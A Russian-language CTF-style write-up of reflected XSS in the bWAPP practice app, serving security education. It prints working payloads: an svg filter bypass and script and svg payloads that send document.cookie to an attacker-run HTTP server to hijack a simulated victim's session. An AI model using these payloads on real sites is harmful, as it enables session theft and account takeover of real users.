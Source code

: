 # Reflected XSS (GET)
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Buggy Web Application (BWAPP) предлагает набор заданий, который содержит задачи, основанные на ***уязвимости типа "Межсайтовый скриптинг" (XSS)***. (**A03:2021 – Injection**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий
- Средний

# Приложение
---

![[images/XssReflectedTarget.png]]

# Функционал
---

![[images/XssReflectedFunction.png]]

# Эксплуатация (фаза 1)
---

Тестирование на наличие Reflected XSS путем передачи простого XSS-пейлоада в поле `lastname` через BurpSuite или непосредственно на клиентской стороне:

#### Пейлоад (Уровень безопасности - низкий)

```HTML
<script>alert("Basic XSS")</script>
```

## BurpSuite

![[images/XssReflectedGetBurp.png]]

## Браузер

![[images/XssReflectedBrowser.png]]

## Результат

![[images/XssReflectedSuccess.png]]

Приложение уязвимо к Reflected XSS. Эту уязвимость можно использовать для кражи cookie других пользователей.

Примечание: для уровней безопасности `medium` и `high` в bWAPP пейлоады будут отличаться из-за реализованных мер безопасности.

## Эксплуатация (Фаза 2)
---

HTTP-сервер можно запустить с помощью Python, используя команду:

```Bash
python3 -m http.server "порт"
```

Я не указал порт, и сервер запустился на порту `8000`.

Когда пользователь переходит по URL с внедренным этим пейлоадом:

```HTML
<script> var pic = new Image(); pic.src = "http://0.0.0.0:8000/steal.php?cookie=" + document.cookie; </script>
```

Его cookie будут отправлены на HTTP-сервер, запущенный на порту `8000`.

Переход по URL от пользователя `bee/bug` привел к успешной краже cookie:

![[images/XssReflectedCookieTheftTest.png]]
(PHPSESSID содержит токен, используемый для аутентификации пользователей)

Теперь смоделируем взаимодействие с жертвой:

![[images/XssReflectedMamont1.png]]

Я создал пользователя-жертву и использовал его учетные данные для входа в bWAPP.

Как только жертва переходит по злонамеренной ссылке (которая в реальном мире обычно предоставляется c помощью методов социальной инженерии), значение cookie отправляется на сервер атакующего:

![[images/XssReflectedMamont2.png]]

Сработало! Cookie пользователя `Mamont` были успешно скомпрометированы без его ведома:

![[images/XssReflectedMamontCookie.png]]
(Для более четкого вывода я перезапустил экземпляр)

## Подход для уровня Medium
---

BWAPP на уровне безопасности `medium` реализует защитную меру против базового XSS-пейлоада:

```HTML
<script>alert("Basic XSS")</script>
```

Однако пейлоад на основе `svg` обходит фильтры, что приводит к успешному выполнению кода:

```HTML
<svg onload=alert(1)>
```

### Пейлоад для кражи cookie на уровне Medium

Этот пейлоад аналогичен подходу для низкого уровня, но основан на `svg`:

```HTML
<svg xmlns="http://www.w3.org/2000/svg" onload="var pic=new Image(); pic.src='http://0.0.0.0:8000/steal.php?cookie=' + document.cookie;">
</svg>
```